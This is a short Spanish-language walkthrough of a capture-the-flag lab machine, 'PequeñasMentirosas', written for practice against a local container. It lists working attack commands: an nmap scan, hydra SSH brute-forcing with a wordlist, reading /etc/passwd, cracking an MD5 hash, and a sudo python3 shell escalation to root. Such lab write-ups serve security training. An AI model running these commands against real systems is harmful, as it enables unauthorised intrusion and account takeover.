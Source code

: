 Maquina: PequeñasMentirosas

Autor: Beafn28

Dificultad: Facil


Realizamos un ping a la máquina para verificar la comunicación.
ping 172.17.0.2 -c 1

Escaneamos con Nmap.
sudo nmap -p- --open -sCV --min-rate 5000 -sS -Pn -n 172.17.0.2 -vvv

Observamos que el puerto 80 y 22 estan abiertos.

Accedemos a la página web alojada en esta máquina utilizando un navegador y vemos un posible usuario.

Usamos hydra.

hydra -l "a" -P /home/ankb/Documents/rockyou.txt ssh://172.17.0.2 

Encontramos la contrasena para el usuario y enctramos por ssh.

ssh a@172.17.0.2

secret

Si vemos los usuarios que existen, encontramos spencer.

cat /etc/passwd | grep "sh$"

Hacemos una busqueda de archivos .txt de la siguiente manera find / -name *.txt 2>/dev/null

ls | xargs cat

cat /srv/ftp/hash_spencer.txt

Encontramos con un hash en MD5, usamos CrackStation y nos da la contrasena: password1

Cambiamos al usuario spencer

su spencer
password1

sudo -l

Con este usuario veremos que podemos ejecutar el binario de /usr/bin/python3 como cualquier usuario sin propocionar contraseña.

sudo /usr/bin/python3 -c "import os; os.system('/bin/bash')"

whoami
